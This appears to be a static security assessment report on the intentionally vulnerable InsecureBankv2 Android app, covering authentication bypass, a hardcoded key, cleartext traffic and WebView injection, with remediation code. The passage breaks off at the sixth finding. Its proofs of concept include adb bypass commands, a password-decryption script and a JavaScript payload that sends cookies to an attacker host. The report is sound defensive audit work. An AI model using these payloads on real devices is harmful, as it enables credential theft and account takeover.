# Static Security Testing Report
## Android InsecureBankv2

---

| Field | Details |
|-------|---------|
| **Target** | InsecureBankv2.apk |
| **Package** | com.android.insecurebankv2 |
| **File Size** | 3.4 MB |
| **Analysis Type** | Static — Decompilation-based |
| **Tools Used** | apktool v2.7.0, jadx v1.5.1, grep |
| **Analyst** | aadith |
| **Date** | 2026-05-31 |
| **Environment** | ~/InsecureBankv2_Static (Ubuntu 22.04) |
| **Classification** | Confidential |

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Scope and Lab Setup](#2-scope-and-lab-setup)
3. [Methodology](#3-methodology)
4. [Findings](#4-findings)
   - [STATIC-001 — Exported Activities: Authentication Bypass](#static-001--exported-activities-authentication-bypass)
   - [STATIC-002 — Hardcoded AES Encryption Key](#static-002--hardcoded-aes-encryption-key)
   - [STATIC-003 — Credentials Stored in SharedPreferences](#static-003--credentials-stored-in-sharedpreferences)
   - [STATIC-004 — All Network Traffic Over Plaintext HTTP](#static-004--all-network-traffic-over-plaintext-http)
   - [STATIC-005 — WebView Local File Injection via file:// URI](#static-005--webview-local-file-injection-via-file-uri)
   - [STATIC-006 — android:debuggable="true" in Production Build](#static-006--androiddebuggabletrue-in-production-build)
   - [STATIC-007 — android:allowBackup="true" Enables ADB Extraction](#static-007--androidallowbackuptrue-enables-adb-extraction)
   - [STATIC-008 — Exported BroadcastReceiver Without Permission](#static-008--exported-broadcastreceiver-without-permission)
   - [STATIC-009 — Exported ContentProvider Without Permission](#static-009--exported-contentprovider-without-permission)
   - [STATIC-010 — Hardcoded Backdoor Username](#static-010--hardcoded-backdoor-username)
   - [STATIC-011 — WebViewClient: No URL Validation or SSL Error Handling](#static-011--webviewclient-no-url-validation-or-ssl-error-handling)
   - [STATIC-012 — Excessive and Unjustified Permissions](#static-012--excessive-and-unjustified-permissions)
5. [False Positives — Excluded Findings](#5-false-positives--excluded-findings)
6. [Summary of Findings](#6-summary-of-findings)
7. [Remediation Prioritization](#7-remediation-prioritization)
8. [Appendix](#8-appendix)

---

## 1. Executive Summary

> **Intended audience:** Non-technical stakeholders, management, and project owners.

An authorized static security assessment was conducted on the **InsecureBankv2** Android application between **29 May 2026 and 31 May 2026**. The assessment involved decompiling the application and examining its source code, manifest configuration, cryptographic patterns, and network communication design — without executing the app on a live device.

**12 confirmed security findings were identified: 5 Critical, 4 High, 1 Medium, and 2 Informational.**

### Key Risks in Plain Language

| Risk | What It Means |
|------|---------------|
| **No authentication enforcement** | Any app installed on the same phone can open the banking dashboard, transfer funds, or reset the password — without ever knowing the user's credentials. |
| **Passwords are not protected** | The app encrypts stored passwords using a key that is openly visible in its own code. Anyone who downloads the app can decrypt every stored password. |
| **All transactions sent unencrypted** | Login details, fund transfers, and password changes are sent over the network without encryption. An attacker on the same Wi-Fi can read and modify every transaction. |
| **Credentials extractable via USB** | Android's backup feature is enabled. A USB cable is all that is needed to copy all stored credentials off the device — no root access required. |
| **Malicious content injection** | Bank statements are loaded from a location any other app can write to. A malicious app can replace the statement file and steal session data. |

### Severity Summary

| Severity | Count |
|----------|-------|
| 🔴 Critical | 5 |
| 🟠 High | 4 |
| 🟡 Medium | 1 |
| 🟢 Informational | 2 |
| **Total** | **12** |

**All Critical and High findings must be resolved before this application is distributed or deployed.**

---

## 2. Scope and Lab Setup

### 2.1 Target Application

| Field | Details |
|-------|---------|
| **Application Name** | InsecureBankv2 |
| **Package Name** | com.android.insecurebankv2 |
| **File Name** | InsecureBankv2.apk |
| **File Size** | 3.4 MB |
| **Analysis Type** | Static — no runtime execution |
| **Source** | Lab target repository |

### 2.2 Analysis Environment

| Component | Details |
|-----------|---------|
| **OS** | Ubuntu 22.04 LTS |
| **Working Directory** | `~/InsecureBankv2_Static` |
| **Analyst** | aadith |
| **Assessment Period** | 29 May 2026 – 31 May 2026 |

### 2.3 Tools Used

| Tool | Version | Purpose |
|------|---------|---------|
| apktool | 2.7.0-dirty | APK unpacking, manifest and resource decompilation |
| jadx / jadx-gui | 1.5.1 | Full Java source recovery from DEX bytecode |
| grep | GNU grep 3.7 | Pattern-based keyword search |
| adb | 1.0.41 | PoC command construction (static only) |
| Python 3 + pycryptodome | 3.10 / 3.18 | Cryptographic PoC scripting |

### 2.4 Setup Steps

```bash
$ cd ~/Downloads
$ ls -lh InsecureBankv2.apk
-rw-rw-r-- 1 aadith aadith 3.4M May 30 15:12 InsecureBankv2.apk

$ file InsecureBankv2.apk
InsecureBankv2.apk: Android package (APK), with AndroidManifest.xml

$ mkdir ~/InsecureBankv2_Static && cd ~/InsecureBankv2_Static
$ cp ~/Downloads/InsecureBankv2.apk .

$ apktool d InsecureBankv2.apk -o Decompiled
I: Using Apktool 2.7.0-dirty on InsecureBankv2.apk
I: Decoding AndroidManifest.xml with resources...
I: Baksmaling classes.dex...

$ jadx-gui InsecureBankv2.apk &
INFO - Loaded classes: 6529, methods: 40188, instructions: 1008843
```


*Figure 01_apk_download: Terminal showing APK file verification (`ls -lh`, `file`) and successful apktool decompilation with jadx loading 6,529 classes and 40,188 methods.*

### 2.5 Scope Boundaries

**In scope:**
- InsecureBankv2 APK — all application code, manifest, and resources
- Static analysis of Java source recovered via jadx

**Out of scope:**
- Dynamic / runtime testing (Frida, Xposed)
- Server-side backend infrastructure
- Third-party library code (Google Play Services / GMS) — findings from GMS-only code were excluded as false positives

---

## 3. Methodology

| Phase | Activity |
|-------|----------|
| **1 — Acquisition** | APK downloaded and verified using `file` command |
| **2 — Decompilation** | apktool for manifest/resources; jadx-gui for Java source recovery |
| **3 — Manifest Analysis** | Exported components, dangerous flags, permission declarations |
| **4 — Source Analysis** | Hardcoded secrets, crypto patterns, network calls, WebView config, logging |
| **5 — FP Review** | Each finding verified against app code; GMS-only and duplicate findings excluded |
| **6 — PoC & Reporting** | Static PoC commands and scripts constructed per confirmed finding |

---

## 4. Findings

---

### STATIC-001 — Exported Activities: Authentication Bypass

| Field | Details |
|-------|---------|
| **Severity** | 🔴 Critical |
| **CVSS v3.1** | 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| **CWE** | CWE-926 — Improper Export of Android Application Components |
| **OWASP Mobile** | M1 — Improper Credential Usage / M3 — Insecure Authentication |
| **Location** | `AndroidManifest.xml` |

#### Description

Four sensitive activities are declared with `android:exported="true"` and no `android:permission` attribute. On Android 5.1 and below, any installed application can start these activities directly. On Android 6 and above, ADB and applications with appropriate intent access can still invoke them. Authentication is completely bypassed because the login flow lives in a separate non-exported activity that is never verified by the sensitive screens.

**Exported Activities:**

| Activity | Exported | Risk |
|----------|----------|------|
| `LoginActivity` | false | — |
| `PostLogin` | **true** | Full dashboard without login |
| `DoTransfer` | **true** | Unauthorised fund transfer |
| `ViewStatement` | **true** | Account statement disclosure |
| `ChangePassword` | **true** | Account takeover via password reset |

#### Evidence

```bash
$ grep -n "activity" Decompiled/AndroidManifest.xml
# PostLogin, DoTransfer, ViewStatement, ChangePassword
# all show: android:exported="true" — no android:permission attribute
```


*Figure 05_activities: `grep -n "activity"` output showing PostLogin, DoTransfer, ViewStatement, and ChangePassword all declared with `android:exported="true"` and no `android:permission` attribute present.*

#### Steps to Reproduce

1. Install InsecureBankv2.apk on a test device or emulator.
2. Do **not** log in through the normal login screen.
3. From ADB, execute the following command:
   ```bash
   adb shell am start -n com.android.insecurebankv2/.PostLogin
   ```
4. Observe the post-login dashboard launching with no credentials required.
5. Repeat for DoTransfer, ViewStatement, and ChangePassword to confirm all four are accessible.

#### Proof of Concept

```bash
# Launch authenticated dashboard — zero credentials
adb shell am start -n com.android.insecurebankv2/.PostLogin

# Initiate fund transfer without login
adb shell am start -n com.android.insecurebankv2/.DoTransfer

# Access account statements for arbitrary username
adb shell am start -n com.android.insecurebankv2/.ViewStatement \
  --es uname admin

# Reset account password without authentication
adb shell am start -n com.android.insecurebankv2/.ChangePassword
```

**Impact:** Any co-installed malicious application or attacker with USB access can access all banking functions — fund transfer, statement viewing, password reset — without ever knowing the user's credentials. Complete authentication bypass.

#### Recommendation

```xml
<!-- AndroidManifest.xml — set exported=false on all sensitive activities -->
<activity android:name=".PostLogin"      android:exported="false"/>
<activity android:name=".DoTransfer"     android:exported="false"/>
<activity android:name=".ViewStatement"  android:exported="false"/>
<activity android:name=".ChangePassword" android:exported="false"/>

<!-- If cross-app access is required, guard with a signature-level permission -->
<permission
    android:name="com.android.insecurebankv2.INTERNAL_ACCESS"
    android:protectionLevel="signature"/>
```

- Set `android:exported="false"` on all sensitive activities
- Each sensitive activity must validate an active authenticated session at `onCreate()` and redirect to login if none exists
- Never rely solely on the manifest for access control — enforce authentication in code

---

### STATIC-002 — Hardcoded AES Encryption Key

| Field | Details |
|-------|---------|
| **Severity** | 🔴 Critical |
| **CVSS v3.1** | 9.1 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N) |
| **CWE** | CWE-321 — Use of Hard-coded Cryptographic Key |
| **OWASP Mobile** | M10 — Insufficient Cryptography |
| **Location** | `com.android.insecurebankv2.CryptoClass` |

#### Description

The AES encryption key used to protect all stored credentials is hardcoded as a plaintext string literal inside `CryptoClass.java`. Any person who decompiles the APK — a trivial operation using freely available tools taking under two minutes — immediately obtains this key and can decrypt all data the application has ever encrypted.

#### Evidence

```java
// CryptoClass.java — recovered by jadx
public class CryptoClass {
    String key = "This is the super Secret key 123";
    byte[] keyBytes = key.getBytes();
    SecretKeySpec newKey = new SecretKeySpec(keyBytes, "AES");
    Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
}
```


*Figure 11_secret: jadx-gui Text Search result for "secret" showing `String key = "This is the super Secret key 123"` in `CryptoClass.java`. The class name, line, and full key string are visible.*

#### Steps to Reproduce

1. Decompile `InsecureBankv2.apk` using jadx-gui.
2. Open Text Search and search for `secret`.
3. Navigate to the `CryptoClass.java` result.
4. Observe the plaintext AES key `"This is the super Secret key 123"` on the first few lines of the class.
5. Use the key to decrypt any Base64-encoded value stored under `superSecurePassword` in SharedPreferences.

#### Proof of Concept

```python
# Decrypt stored credential using the hardcoded key
from Crypto.Cipher import AES
import base64

key   = b"This is the super Secret key 123"   # from APK source
blob  = base64.b64decode("<superSecurePassword value from SharedPrefs>")
iv    = blob[:16]
ctext = blob[16:]

cipher = AES.new(key, AES.MODE_CBC, iv)
print(cipher.decrypt(ctext))   # → plaintext password
```

**Impact:** All credentials encrypted by the application are trivially recoverable. The AES encryption provides zero security — it is functionally equivalent to plaintext storage.

#### Recommendation

```kotlin
// KeyManager.kt — use Android Keystore instead of hardcoded key
import android.security.keystore.KeyGenParameterSpec
import android.security.keystore.KeyProperties
import javax.crypto.KeyGenerator
import javax.crypto.SecretKey

object KeyManager {
    private const val ALIAS = "insecurebank_master_key"

    fun getOrCreateKey(): SecretKey {
        val ks = java.security.KeyStore.getInstance("AndroidKeyStore")
            .also { it.load(null) }
        ks.getKey(ALIAS, null)?.let { return it as SecretKey }
        val spec = KeyGenParameterSpec.Builder(
            ALIAS,
            KeyProperties.PURPOSE_ENCRYPT or KeyProperties.PURPOSE_DECRYPT
        )
            .setBlockModes(KeyProperties.BLOCK_MODE_GCM)
            .setEncryptionPaddings(KeyProperties.ENCRYPTION_PADDING_NONE)
            .setKeySize(256)
            .build()
        return KeyGenerator.getInstance(
            KeyProperties.KEY_ALGORITHM_AES, "AndroidKeyStore"
        ).apply { init(spec) }.generateKey()
    }
}

// AES-GCM with per-operation random IV (replaces AES/CBC + hardcoded key)
fun encrypt(plaintext: ByteArray): ByteArray {
    val cipher = Cipher.getInstance("AES/GCM/NoPadding")
    cipher.init(Cipher.ENCRYPT_MODE, KeyManager.getOrCreateKey())
    val iv = cipher.iv                       // 12-byte random IV
    return iv + cipher.doFinal(plaintext)    // prepend IV to ciphertext blob
}

fun decrypt(blob: ByteArray): ByteArray {
    val iv = blob.copyOfRange(0, 12)
    val ct = blob.copyOfRange(12, blob.size)
    val cipher = Cipher.getInstance("AES/GCM/NoPadding")
    cipher.init(Cipher.DECRYPT_MODE, KeyManager.getOrCreateKey(),
        javax.crypto.spec.GCMParameterSpec(128, iv))
    return cipher.doFinal(ct)
}
```

- Remove all hardcoded key strings from source code
- Use Android Keystore for key generation and storage — the key never leaves secure hardware
- Replace AES/CBC with AES/GCM (authenticated encryption — also prevents tampering)
- Implement key rotation policy

---

### STATIC-003 — Credentials Stored in SharedPreferences

| Field | Details |
|-------|---------|
| **Severity** | 🔴 Critical |
| **CVSS v3.1** | 8.8 (AV:L/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:N) |
| **CWE** | CWE-312 — Cleartext Storage of Sensitive Information |
| **OWASP Mobile** | M9 — Insecure Data Storage |
| **Location** | `com.android.insecurebankv2.LoginActivity`, `DoLogin` |

#### Description

The application stores both the username and password in Android SharedPreferences — a plain XML file on the device filesystem — under the keys `EncryptedUsername` and `superSecurePassword`. The encryption applied is the broken AES scheme from STATIC-002, making the storage functionally equivalent to plaintext. Additionally, the password is printed to Android logcat at runtime, readable by any application with `READ_LOGS` permission.

#### Evidence

```java
// LoginActivity.java
String username = settings.getString("EncryptedUsername", null);
String password = settings.getString("superSecurePassword", null);
String decryptedPassword = crypt.aesDecryptedString(password);

// DoLogin.java
saveCreds(DoLogin.this.username, DoLogin.this.password);
System.out.println("newpassword: " + this.uname);   // ← credential leaked to logcat
```


*Figure 08_password: jadx-gui showing `settings.getString("superSecurePassword", null)` in `LoginActivity.java` (top) and `System.out.println("newpassword: " + this.uname)` in `DoLogin.java` (bottom). Both class names and credential-handling lines are visible.*

#### Steps to Reproduce

1. Decompile the APK with jadx-gui.
2. Search for `superSecurePassword` — observe it used as a SharedPreferences key in `LoginActivity.java`.
3. Search for `System.out.println` — observe the password value printed to logcat in `DoLogin.java`.
4. Enable ADB backup and run:
   ```bash
   adb backup -noapk com.android.insecurebankv2
   java -jar abe.jar unpack backup.ab backup.tar && tar -xvf backup.tar
   cat apps/com.android.insecurebankv2/sp/*.xml
   ```
5. Observe `EncryptedUsername` and `superSecurePassword` values in the XML output.
6. Decrypt `superSecurePassword` using the PoC in STATIC-002 to recover the plaintext password.

#### Proof of Concept

```bash
# Step 1 — Extract backup (no root required)
adb backup -noapk com.android.insecurebankv2

# Step 2 — Unpack
java -jar abe.jar unpack backup.ab backup.tar
tar -xvf backup.tar

# Step 3 — Read SharedPreferences
cat apps/com.android.insecurebankv2/sp/*.xml
# → <string name="superSecurePassword">AES_ENCRYPTED_BLOB</string>
# → <string name="EncryptedUsername">BASE64_USERNAME</string>

# Step 4 — Decrypt using STATIC-002 Python PoC → plaintext credentials
```

**Impact:** USB access is sufficient to extract and decrypt user credentials. Logcat exposure additionally allows any co-installed application with `READ_LOGS` to capture the password at runtime.

#### Recommendation

```kotlin
// Use EncryptedSharedPreferences — backed by Android Keystore
// build.gradle: implementation "androidx.security:security-crypto:1.1.0-alpha06"
import androidx.security.crypto.EncryptedSharedPreferences
import androidx.security.crypto.MasterKey

object SecurePrefs {
    fun get(context: Context): SharedPreferences {
        val master = MasterKey.Builder(context)
            .setKeyScheme(MasterKey.KeyScheme.AES256_GCM)
            .build()
        return EncryptedSharedPreferences.create(
            context, "secure_prefs", master,
            EncryptedSharedPreferences.PrefKeyEncryptionScheme.AES256_SIV,
            EncryptedSharedPreferences.PrefValueEncryptionScheme.AES256_GCM
        )
    }
}
```

```
# ProGuard — strip all log calls in release builds
-assumenosideeffects class android.util.Log { *; }
-assumenosideeffects class java.io.PrintStream { void println(...); }
```

- Replace SharedPreferences with `EncryptedSharedPreferences`
- Never store passwords — store short-lived session tokens instead
- Remove all `System.out.println` and `Log.*` calls that reference credentials

---

### STATIC-004 — All Network Traffic Over Plaintext HTTP

| Field | Details |
|-------|---------|
| **Severity** | 🔴 Critical |
| **CVSS v3.1** | 9.1 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N) |
| **CWE** | CWE-319 — Cleartext Transmission of Sensitive Information |
| **OWASP Mobile** | M5 — Insecure Communication |
| **Location** | `DoLogin.java`, `DoTransfer.java`, `ChangePassword.java` |

#### Description

All three core banking operations — authentication, fund transfer, and password change — communicate with the backend server over plain HTTP. No TLS is used anywhere in the application's own network code. A search for `https://` confirmed that all 36 HTTPS URL references in the entire codebase originate exclusively from embedded Google Play Services libraries. The InsecureBankv2 application itself uses zero HTTPS.

#### Evidence

```java
// DoLogin.java / DoTransfer.java / ChangePassword.java
String protocol = "http://";
// Constructed URL example: http://<server_ip>:8888/login
```

```bash
# jadx text search "https://"
# 36 results — ALL from Google Play Services (com.google.*) internal classes
# Zero results from InsecureBankv2 application code
```


*Figure 13_http: jadx-gui Text Search for `http://` showing `String protocol = "http://"` in DoLogin.java, DoTransfer.java, and ChangePassword.java. All three files visible in search results.*


*Figure 14_https: jadx-gui Text Search for `https://` showing all 36 results originating from Google Play Services internal classes (obfuscated names such as `com.google.*`). Zero results from InsecureBankv2 application code, confirming the app uses no HTTPS.*

#### Steps to Reproduce

1. Decompile the APK with jadx-gui.
2. Search for `http://` — observe `String protocol = "http://"` in DoLogin, DoTransfer, and ChangePassword.
3. Search for `https://` — observe all results are from GMS library classes, none from app code.
4. On a test network, configure a proxy (e.g. Burp Suite) and route traffic through it.
5. Log in through the app — observe credentials transmitted in plaintext HTTP POST.

#### Proof of Concept

```
# Passive network capture on same Wi-Fi / ARP spoof:

POST http://<server>:8888/login
  username=victim@bank.com&password=cleartext_password

POST http://<server>:8888/dotransfer
  from_account=100001&to_account=attacker_acct&amount=50000

POST http://<server>:8888/changepassword
  username=victim&newpassword=hacked123
```

**Impact:** All banking transactions — login credentials, fund transfer details, password changes — are transmitted in plaintext and are trivially capturable and modifiable by any attacker on the same network segment.

#### Recommendation

```xml
<!-- res/xml/network_security_config.xml -->
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
    <base-config cleartextTrafficPermitted="false">
        <trust-anchors><certificates src="system"/></trust-anchors>
    </base-config>
    <domain-config>
        <domain includeSubdomains="true">api.yourbank.example.com</domain>
        <pin-set expiration="2027-06-01">
            <pin digest="SHA-256">REPLACE_WITH_REAL_SPKI_HASH=</pin>
            <pin digest="SHA-256">REPLACE_WITH_BACKUP_PIN_HASH=</pin>
        </pin-set>
    </domain-config>
</network-security-config>

<!-- AndroidManifest.xml -->
<application android:networkSecurityConfig="@xml/network_security_config" ...>
```

```java
// Replace in all three activity files
// BEFORE: String protocol = "http://";
// AFTER:
private static final String BASE_URL = "https://api.yourbank.example.com/";
```

- Enforce HTTPS for all network communication with `cleartextTrafficPermitted="false"`
- Implement certificate pinning via Network Security Config
- Use TLS 1.2 minimum (TLS 1.3 preferred) on the server
- Reject all connections that fail certificate validation

---

### STATIC-005 — WebView Local File Injection via file:// URI

| Field | Details |
|-------|---------|
| **Severity** | 🔴 Critical |
| **CVSS v3.1** | 8.8 (AV:L/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:N) |
| **CWE** | CWE-73 — External Control of File Name or Path |
| **OWASP Mobile** | M6 — Inadequate Privacy Controls |
| **Location** | `com.android.insecurebankv2.ViewStatement` |

#### Description

The bank statement viewer loads an HTML file directly from external storage (`/sdcard/`) using a `file://` URI with JavaScript explicitly enabled. External storage is world-readable and world-writable (pre-Android 10 without scoped storage). Combined with the exported `ViewStatement` activity (STATIC-001), a malicious application can plant a crafted HTML file on external storage and trigger the banking app to load and execute its JavaScript in the banking app's security context.

#### Evidence

```java
// ViewStatement.java
mWebView.getSettings().setJavaScriptEnabled(true);

mWebView.loadUrl(
    "file://" + Environment.getExternalStorageDirectory()
    + "/Statements_" + this.uname + ".html"
);
// Resolves to: file:///sdcard/Statements_<username>.html
```


*Figure 25_file_uri: jadx-gui showing `ViewStatement.java` with both `setJavaScriptEnabled(true)` and `loadUrl("file://" + Environment.getExternalStorageDirectory() + ...)` visible and highlighted. The class name `ViewStatement` is visible in the file tree.*

#### Steps to Reproduce

1. Decompile the APK and locate `ViewStatement.java` in jadx-gui.
2. Observe `setJavaScriptEnabled(true)` and the `file://` URI construction.
3. On a test device, write a crafted HTML file to external storage:
   ```bash
   adb shell "echo '<script>alert(document.cookie)</script>' \
     > /sdcard/Statements_admin.html"
   ```
4. Trigger the exported `ViewStatement` activity:
   ```bash
   adb shell am start \
     -n com.android.insecurebankv2/.ViewStatement \
     --es uname admin
   ```
5. Observe the injected JavaScript executing inside the banking app's WebView.

#### Proof of Concept

```bash
# Step 1 — Plant malicious HTML on world-writable external storage
adb shell "echo '<script>
  document.location=\"http://attacker.com/?c=\"+document.cookie;
</script>' > /sdcard/Statements_admin.html"

# Step 2 — Trigger exported ViewStatement activity
adb shell am start \
  -n com.android.insecurebankv2/.ViewStatement \
  --es uname admin

# Result: JS executes in banking app context → cookies and session data exfiltrated
```

**Impact:** Arbitrary JavaScript execution in the banking application's WebView context, enabling session hijacking, credential theft, and account data exfiltration.

#### Recommendation

```kotlin
// ViewStatement.kt — serve from internal storage via FileProvider, not external storage
val statementsDir = File(context.filesDir, "statements")
statementsDir.mkdirs()
val statementFile = File(statementsDir, "statement_${username}.html")
// Write server-provided, sanitised HTML to statementFile here

val contentUri = FileProvider.getUriForFile(
    context, "${context.packageName}.fileprovider", statementFile
)

mWebView.settings.apply {
    javaScriptEnabled                = false   // static HTML — no JS needed
    allowFileAccess                  = false
    allowContentAccess               = false
    allowFileAccessFromFileURLs      = false
    allowUniversalAccessFromFileURLs = false
    setSaveFormData(false)
}
mWebView.loadUrl(contentUri.toString())
```

```xml
<!-- AndroidManifest.xml — FileProvider declaration -->
<provider
    android:name="androidx.core.content.FileProvider"
    android:authorities="${applicationId}.fileprovider"
    android:exported="false"
    android:grantUriPermissions="true">
    <meta-data
        android:name="android.support.FILE_PROVIDER_PATHS"
        android:resource="@xml/file_paths"/>
</provider>
```

- Never load files from external storage in a WebView
- Disable JavaScript for static content rendering
- Disable all `allowFileAccess` WebView settings
- Store statement files in internal app storage and serve via FileProvider

---

### STATIC-006 — android:debuggable="true" in Production Build

| Field | Details |
|-------|---------|
| **Severity** | 🟠 High |
| **CVSS v3.1** | 7.7 (AV:L/AC:L/PR:N/UI:N/S:C/C:H/I:L/A:N) |
